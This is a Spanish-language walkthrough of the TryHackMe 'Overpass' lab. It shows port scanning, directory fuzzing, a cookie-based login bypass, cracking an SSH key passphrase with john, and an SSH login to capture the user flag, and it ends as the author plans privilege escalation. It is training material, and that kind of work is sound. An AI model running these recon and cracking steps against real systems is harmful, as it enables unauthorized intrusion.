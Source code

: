 ## TryHackMe  <> Overpass

![image](https://github.com/Esevka/CTF/assets/139042999/262f5142-59aa-4483-b9ba-6034c32a93a6)

Enlace Maquina: https://tryhackme.com/room/overpass

Enunciado : 

  - Conseguir Flags(user.txt y root.txt)
  - BONUS --> Conseguir codigo de subscripcion.
---

## Escaneo de puertos (NMAP).

-Segun el ttl obtenito a la hora de lanzar un ping a la maquina victima podriamos decir que es una maquina ---> Linux.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/nmap]
    └─# ping 10.10.181.35 -c1
    PING 10.10.181.35 (10.10.181.35) 56(84) bytes of data.
    64 bytes from 10.10.181.35: icmp_seq=1 ttl=63 time=582 ms
    
    --- 10.10.181.35 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 581.984/581.984/581.984/0.000 ms

-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.181.35 -oN open_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-12 11:29 CET

    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

-Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/nmap]
    └─# nmap -p 22,80 -sCV -n -Pn 10.10.181.35 -oN info_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-12 11:35 CET
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
    |   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
    |_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
    
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    |_http-title: Overpass
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

-Segun el lauchpad del servicio OpenSSH que tenemos corriendo en el puerto 22.

  ![image](https://github.com/Esevka/CTF/assets/139042999/1bf3f6e8-0dbc-4f89-a3e3-d9f95bca992b)


## Analizamos la informacion obtenida.

-Por el momento tenemos:

  - Maquina Linux (Ubuntu Bionic 18.04)
  - Puertos 80(Http) y 22 (SSH)

-Puerto 80(http).

  - Web titulada Overpass
  
    ![image](https://github.com/Esevka/CTF/assets/139042999/5a258f78-d81a-4cac-959e-930ed30e9ece)

  - En el apartado --> About Us, encontramos posibles usuarios.

    ![image](https://github.com/Esevka/CTF/assets/139042999/2e11e1f2-9212-4358-98cf-3ca15bfc95fa)

  - En el apartado --> Downloads, encontramos la app para diferentes sistemas y el codigo original de la app.

    ![image](https://github.com/Esevka/CTF/assets/139042999/88593c8d-3509-4b30-9414-4a2921f7afc8)

  - Fuzzeamos la web en busqueda de directorios con la ayuda de --> Gobuster.

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
        └─# gobuster dir -u http://10.10.181.35/ -w /usr/share/wordlists/dirb/common.txt -o fuzz
        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        /aboutus              (Status: 301) [Size: 0] [--> aboutus/]
        /admin                (Status: 301) [Size: 42] [--> /admin/]  ---> directorio que nos interesa.
        /css                  (Status: 301) [Size: 0] [--> css/]
        /downloads            (Status: 301) [Size: 0] [--> downloads/]
        /img                  (Status: 301) [Size: 0] [--> img/]
        /index.html           (Status: 301) [Size: 0] [--> ./]

  - Cargamos el directorio y encontramos un panel de login.

    ![image](https://github.com/Esevka/CTF/assets/139042999/28d69fc5-7f5a-42e1-a34a-82551fd94329)

    - Vamos a analizar el codigo web del panel de login, en busca de algun fallo.
   
      ![image](https://github.com/Esevka/CTF/assets/139042999/fd4e81fe-14c3-4ce3-8665-adb8fd007602)

    - Creamos una cookie para ver si podemos saltarnos el panel de login y recargamos la web. Bingo obtenemos una private key.
   
      ![image](https://github.com/Esevka/CTF/assets/139042999/3c07e9ad-3796-46e9-99a3-d1dc1b07ee93)

-Puerto 22(SSH)

-Copiamos la clave a un fichero en nuestra maquina y le damos permiso solo de lectura para nuestro usuario.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# echo '-----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337
    
    LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
    JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
    [...]
    2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
    -----END RSA PRIVATE KEY-----'> id_rsa 

    
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# chmod 400 id_rsa                                                                                                                                                    
                                                                                                                                                              
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ls -la
    -r-------- 1 root root 1766 Nov 12 12:42 id_rsa

-Conectamos por ssh utilizando la id_rsa del usuario ---> James
   
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ssh -i id_rsa james@10.10.181.35
    The authenticity of host '10.10.181.35 (10.10.181.35)' can't be established.
    ED25519 key fingerprint is SHA256:FhrAF0Rj+EFV1XGZSYeJWf5nYG0wSWkkEGSO5b+oSHk.
    This host key is known by the following other names/addresses:
        ~/.ssh/known_hosts:11: [hashed name]
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.181.35' (ED25519) to the list of known hosts.
    Enter passphrase for key 'id_rsa': 

Nos pide passphrase para la id_rsa, cosa que no tenemos.

    La "passphrase" (frase de contraseña) para una clave SSH (Secure Shell) es una capa adicional de seguridad que se puede agregar a la clave privada.

-Intentamos Crakear la pass de is_rsa.

  1)Convertimos id_rsa a un formato entendible para john
  
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ssh2john id_rsa > john_id_rsa

  2)Crakeamos john_id_rsa

    		┌──(root㉿kali)-[~kali/…/ctf/try_ctf/overpass/contend]
		└─# john john_idrsa --wordlist=/usr/share/wordlists/rockyou.txt 
		Using default input encoding: UTF-8
		Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
		Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
		Cost 2 (iteration count) is 1 for all loaded hashes
		Will run 3 OpenMP threads
		Press 'q' or Ctrl-C to abort, almost any other key for status
		ja-----13          (id_rsa)  

  3)Obtenemos session en la maquina victima mediante SSH.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ssh -i id_rsa james@10.10.246.94
    Enter passphrase for key 'id_rsa': 
    Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon Nov 13 05:59:54 UTC 2023
    
      System load:  0.0                Processes:           88
      Usage of /:   22.3% of 18.57GB   Users logged in:     0
      Memory usage: 12%                IP address for eth0: 10.10.246.94
      Swap usage:   0%
    
    
    47 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
    james@overpass-prod:~$ whoami
    james

## Obtenemos Flag y elevamos privilegios

-Leemos flag de usuario.

    james@overpass-prod:~$ cat user.txt 
    thm{65c1aaf000506e56-------1e6bf7}

-Encontramos junto a la flag de usuario un fichero interesante.

	james@overpass-prod:~$ cat todo.txt 
	To Do:
	> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
	> Write down my password somewhere on a sticky note so that I don't forget it.
	  Wait, we make a password manager. Why don't I just use that?
	> Test Overpass for macOS, it builds fine but I'm not sure it actually works
	> Ask Paradox how he got the automated build script working and where the builds go.
	  They're not updating on the website

- Encontramos interesante los dos ultimos comentarios.

	1)El binario para macOS se crea bien pero no esta seguro de si funciona, podriamos ver el codigo fuente que lo tenemos disponible en la web.
  
	2)Pregunta al usuario Paradox donde estan los scripts automaticos de actualizacion web, podrian tener una tarea programada corriendo.

  

  




    

  

